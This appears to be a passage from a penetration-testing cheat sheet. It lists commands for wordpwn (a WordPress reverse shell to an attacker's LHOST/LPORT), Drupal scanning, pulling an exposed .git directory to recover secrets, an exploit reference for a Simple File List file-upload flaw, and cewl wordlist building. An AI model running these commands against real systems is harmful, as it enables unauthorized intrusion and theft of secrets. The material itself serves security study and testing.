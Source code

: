     # Usage
    python3 wordpwn.py [LHOST] [LPORT] [HANDLER]
    
    # Example
    python3 wordpwn.py 192.168.119.140 443 Y
    

- **Drupal Scan**

    # Scan Drupal CMS
    droopescan scan drupal -u [TARGET_URL]
    

- **.git Directory**

    # Download the .git directory if exposed
    sudo wget -r http://[TARGET_IP]/.git/
    
    # Move into the .git directory locally
    cd [TARGET_IP]
    
    # Show Git commits and reveal sensitive information
    sudo git show
    

- **simple-file-list Exploitation**

    # Location and version info
    
    [+] Simple File List
    | Location: http://[TARGET_IP]/wp-content/plugins/simple-file-list/
    | Last Updated: [LAST_UPDATE]
    | [!] The version is out of date; the latest version is [LATEST_VERSION]
    
    # Exploit for Simple File List < [VULNERABLE_VERSION] - Unauthenticated Arbitrary File Upload
    
    https://www.exploit-db.com/exploits/48979
    

- **Generate Keyword Dictionary**: if the website contains written content, create your
                  own keyword dictionary.

    cewl -w <dictionary-file> "http://<IP>/" --with-numbers
    